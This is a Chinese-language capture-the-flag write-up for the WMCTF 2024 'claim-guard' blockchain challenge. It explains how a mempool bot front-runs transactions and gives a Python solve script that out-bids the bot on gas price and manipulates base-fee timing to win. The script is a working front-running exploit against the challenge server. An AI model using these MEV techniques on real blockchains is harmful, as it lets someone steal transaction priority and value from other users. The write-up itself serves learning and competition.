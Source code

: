 ```yaml
---
title: Blockchain - claim-guard
description: 2024 | WMCTF | BlockChain
tags:
    - mev
    - frontrun
    - rust
    - transaction order
---
```


## 题目

We got a cheater.

> nc claim-guard.wm-team.cn 1337

[:material-download: `claim_guard.zip`](static/claim_guard.zip)

## 解题思路

- 合约 `Chall` 共有三个函数：`registerBlock()`、`proveWork()` 和 `claimLastWinner()`。题目要求 `player`，即给定的 EOA，成为 `lastWinner`。需要 `player` 在同一个块内依次调用三个函数并提供正确的工作证明
- `blockNonce` 记录每个区块中 `proveWork()` 成功执行的次数。只有第一个成功执行 `proveWork()` 的账户能够调用 `claimLastWinner()` 成为 `lastWinner`
- 题目环境中包含一个 bot，会在每个区块调用 `registerBlock()`，并监听 mempool。如果出现能够成功执行 `proveWork()` 的交易，bot 将使用更高的 gas price 试图抢跑对应交易

    ```rs
    // 0x27d4563e
    let sig: [u8; 4] = [0x27, 0xd4, 0x56, 0x3e];
    // concat sig and pow
    let mut data = Vec::with_capacity(4 + 32);
    data.extend_from_slice(&sig);
    data.extend_from_slice(pow.as_slice());
    let bytes = Bytes::from(data);
    let bn = finalized_block.header.number.unwrap();
    let nonce = *self.nonce_map.get(&bn).unwrap();
    let effective_gas_price = tx.gas_price.or(tx.max_fee_per_gas).unwrap_or_default();
    let chain_id = self.provider.get_chain_id().await.unwrap();
    let tx_receipt = TransactionRequest {
        from: Some(self.sender_addr),
        to: Some(TxKind::Call(self.chall_addr)),
        gas_price: Some(effective_gas_price * 2),
        gas: Some(100_0000),
        input: TransactionInput::new(bytes),
        chain_id: Some(chain_id),
        nonce: Some(nonce),

        ..Default::default()
    };
    ```

- 与 `proveWork()` 不同，bot 发送的 `registerBlock()` 交易的 gas price 是固定的

    ```rs
    // register the block
    let tx_receipt = TransactionRequest {
        from: Some(self.sender_addr),
        to: Some(TxKind::Call(self.chall_addr)),
        gas_price: Some(110000000000000000 / 100_0000),
        gas: Some(100_0000),
        chain_id: Some(self.provider.get_chain_id().await.unwrap()),
        nonce: Some(nonce),
        input: hex::decode("0xccac0007").unwrap().into(),
        ..Default::default()
    };
    ```

- Anvil 默认按照 gas price 从高到低对交易进行排序[^default]，同时需要保证每个账户的交易的 `nonce` 是有效的。在实现中采用对独立交易以 gas price 和 FIFO (ready ID) 优先排序的方式。其中，独立交易不依赖其它交易，即 `nonce` 有效可以立即执行。非独立交易将在前置交易执行后解锁并加入到独立交易集合中

    ??? note "TransactionsIterator"

        ```rs
        impl TransactionsIterator {
            /// Depending on number of satisfied requirements insert given ref
            /// either to awaiting set or to best set.
            fn independent_or_awaiting(&mut self, satisfied: usize, tx_ref: PoolTransactionRef) {
                if satisfied >= tx_ref.transaction.requires.len() {
                    // If we have satisfied all deps insert to best
                    self.independent.insert(tx_ref);
                } else {
                    // otherwise we're still awaiting for some deps
                    self.awaiting.insert(tx_ref.transaction.hash(), (satisfied, tx_ref));
                }
            }
        }

        impl Iterator for TransactionsIterator {
            type Item = Arc<PoolTransaction>;

            fn next(&mut self) -> Option<Self::Item> {
                loop {
                    let best = self.independent.iter().next_back()?.clone();
                    let best = self.independent.take(&best)?;
                    let hash = best.transaction.hash();

                    let ready =
                        if let Some(ready) = self.all.get(&hash).cloned() { ready } else { continue };

                    // Insert transactions that just got unlocked.
                    for hash in &ready.unlocks {
                        // first check local awaiting transactions
                        let res = if let Some((mut satisfied, tx_ref)) = self.awaiting.remove(hash) {
                            satisfied += 1;
                            Some((satisfied, tx_ref))
                            // then get from the pool
                        } else {
                            self.all
                                .get(hash)
                                .map(|next| (next.requires_offset + 1, next.transaction.clone()))
                        };
                        if let Some((satisfied, tx_ref)) = res {
                            self.independent_or_awaiting(satisfied, tx_ref)
                        }
                    }

                    return Some(best.transaction)
                }
            }
        }
        ```

    ```rs
    /// transactions that are ready to be included in a block.
    #[derive(Clone, Debug, Default)]
    pub struct ReadyTransactions {
        ...
        /// independent transactions that can be included directly and don't require other transactions
        /// Sorted by their id
        independent_transactions: BTreeSet<PoolTransactionRef>,
    }
    ...
    impl Ord for PoolTransactionRef {
        fn cmp(&self, other: &Self) -> Ordering {
            self.transaction
                .priority
                .cmp(&other.transaction.priority)
                .then_with(|| other.id.cmp(&self.id))
        }
    }
    ```

- 根据 `nonce` 和题目约束，`proveWork()` 只能在 `registerBlock()` 之后执行，因此只需要 `player` 以更高的 gas price 抢跑 bot 的 `registerBlock()` 交易并完成 `proveWork()` 即可
- 另外，由于区块的使用率几乎总是不到 50%，因此 base fee 会逐区块减少，可以以此来区分模拟执行和实际执行，设置小于当前 base fee 而大于下一区块 base fee 的 gas price，从而阻止 bot 发送 `proveWork()` 交易

### 解题脚本

```py
from web3 import Web3
from cheb3 import Connection
from cheb3.utils import encode_with_signature
import time, pwn

ticket = b"<ticket>"
HOST = "claim-guard.wm-team.cn"
PORT = 1337

p = pwn.remote(HOST, PORT)
p.sendlineafter(b"ticket", ticket)
p.sendlineafter(b"action?", b"1")
p.recvuntil(b"rpc endpoints")
rpc = p.recvline_contains(b"-").decode().split(" ")[-1]
conn = Connection(rpc)
priv = p.recvline_contains(b"private key").decode().split(" ")[-1]
account = conn.account(priv)
setup = p.recvline_contains(b"contract:").decode().split(" ")[-1]
p.close()

chall = conn.cast_call(setup, "chall()(address)")

pow = 0
bn = conn.w3.eth.get_block_number() + 2
while True:
    h = Web3.solidity_keccak(['uint256', 'uint256'], [pow, bn]).hex()
    if int(h, 16) >> 0xf0 == 0:
        print("Pow:", pow)
        break
    pow += 1
print("Waiting for block", bn)
current_bn = conn.w3.eth.get_block_number() + 1
while bn > current_bn:
    time.sleep(0.5)
    current_bn = conn.w3.eth.get_block_number() + 1
    print("Current block", current_bn)
if bn == current_bn:
    nonce = conn.w3.eth.get_transaction_count(account.address)
    account.send_transaction(chall, data=encode_with_signature("registerBlock()"), wait_for_receipt=False, gas_limit=300000, gas_price=110000000010)
    account.send_transaction(chall, data=encode_with_signature("proveWork(bytes32)", bytes.fromhex(f"{pow:064x}")), nonce=nonce + 1, wait_for_receipt=False, gas_limit=300000, gas_price=110000000010)
    try:
        account.send_transaction(chall, data=encode_with_signature("claimLastWinner(address)", account.address), nonce=nonce + 2, gas_limit=300000)
    except Exception as e:
        print(e)
    lastWinner = conn.cast_call(chall, "lastWinner()(address)")
    print("Player:", account.address)
    print("lastWinner:", lastWinner)
    if account.address == lastWinner:
        p = pwn.remote(HOST, PORT)
        p.sendlineafter(b"ticket", ticket)
        p.sendlineafter(b"action?", b"3")
        p.interactive()
```

### Flag

> WMCTF{is_m3v_this_ea5y}

[^default]: [foundry-rs / foundry](https://github.com/foundry-rs/foundry/blob/master/crates/anvil/src/eth/pool/transactions.rs#L46)
